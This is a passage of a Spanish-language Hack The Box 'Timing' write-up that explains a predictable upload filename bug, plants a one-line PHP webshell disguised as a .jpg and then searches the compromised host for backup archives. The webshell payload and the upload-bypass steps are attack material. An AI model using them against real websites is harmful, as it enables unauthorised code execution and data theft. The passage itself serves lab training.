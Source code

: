 ![Success](/assets/images/hackthebox/machines/timing/success.png)

Refrescamos la página y nos aparece un nuevo enlace que nos lleva al panel de administrador, que básicamente es el uploader.

![AdminPanel](/assets/images/hackthebox/machines/timing/adminpanel.png)

![Uploader](/assets/images/hackthebox/machines/timing/uploader.png)

Como vimos anteriormente en el código del **`upload.php`**, el archivo que podemos subir es un **`jpg`** y al nombre del archivo se le
agrega un hash MD5 basado en tiempo, esto lo podemos ver en este fragmento de código:

```php
$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
```

Sin embargo aquí hay un problema, al estar utilizando comillas simples, la variable $file_hash no se va a interpretar, 
por lo tanto el MD5 será sobre el string **`$file_hash`** literalmente.

Vamos a crear un archivo con código php pero vamos a cambiar la extensión a jpg para poder subirlo.

```console
p3ntest1ng:~$ vi pwned.jpg
<?php system($_GET[pwn]);?>
```

Sabiendo toda esta información, podemos crear un script en python que nos automatice todo el proceso anterior,
además de la subida del archivo de forma que sólo tengamos que ejecutarlo para obtener una pseudo-shell y ejecutar comandos en el sistema.

Os dejo el enlace al script [AutoPwn_Timing.py](https://github.com/WildZarek/wildzarek.github.io/blob/master/scripts/python/autopwn_timing.py)

![Autopwn](/assets/images/hackthebox/machines/timing/autopwn.png)

Lo ideal ahora sería entablar una conexión inversa a nuestra máquina que nos otorgue una shell completa, ya que estamos operando sobre una webshell.
Pero como vemos en la captura anterior, esto no es posible dado que no tenemos permisos para ejecutar **`bash`** o **`nc`**

Algo que podemos hacer es tratar de listar algunos archivos que pueda haber en el sistema, para ahorraros tiempo, vamos a listar todos los archivos **`zip`**

```console
~$ find / -type f -iname *.zip 2>/dev/null
/opt/source-files-backup.zip
```

Encontramos un archivo backup, por lo tanto vamos a tratar de copiarlo a un directorio accesible, por ejemplo dentro de **`/var/www/html`** que es la ruta donde está corriendo la web.

```console
~$ cp /opt/source-files-backup.zip .
```
